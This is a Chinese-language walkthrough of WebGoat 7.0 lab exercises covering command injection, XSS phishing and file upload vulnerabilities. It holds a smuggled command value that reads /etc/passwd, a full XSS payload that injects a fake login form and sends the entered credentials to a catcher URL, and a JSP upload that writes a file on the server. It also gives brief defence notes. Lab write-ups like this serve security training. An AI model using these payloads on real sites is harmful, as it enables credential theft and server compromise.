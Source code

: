   ```
+ 要求：向操作系统中注入一个命令

+ solve：首先随便选择一个帮助文档，点击`view`，然后抓包，在Help File参数后面添加内容`",ls "/etc/passwd`，即可向系统注入一个查看passwd文件的命令(所以说在参数驱动的站点要做好净化输入数据的工作)

  ![](img/cmd_injct.png)

  

### XSS

环境：Webgoat7.0

**phishing wiith XSS钓鱼**

+ 要求：实行钓鱼攻击，在页面注入html代码绘制钓鱼登陆表单，然后用JavaScript脚本来收集信息，将信息发送到指定网址

+ solve：在输入框中输入以下代码

  该段代码实现两个功能：

  + 在现有页面添加表格，需要用户来填写用户名和密码
  + 读取用户填写的信息，发送到指定地址
```
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert(" Your account has been hacked. User Name = " + document.phish.user.value + "Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```
![](img\XSS.PNG)



### 文件上传漏洞

环境：Webgoat7.0

+ 要求：上传一个文件，该文件能执行创建文件`/.extract/webapps/WebGoat/mfe_target/webgoat.txt`的功能
+ solve：因为目标是在指定路径创建一个txt文件，所以我们创建一个jsp文件，编辑

```
<HTML>

<% java.io.File file= new java.io.File("/.extract/webapps/WebGoat/mfe_target/webgoat.txt");file.createNewFile();%>

</HTML>
```
然后上传，上传后我们查看一下文件上传路径，需要访问一下才能执行

![](img/jsp_info.PNG)
访问后返回页面刷新

![](img/MFE_result.png)

+ 防御

  对用户上传文件的文件格式进行验证和过滤，可采用以下两种方法

  + 根据文件扩展名判断（能利用漏洞绕过验证机制）
  + 根据文件头部若干字节数据判断（比上一种靠谱）
```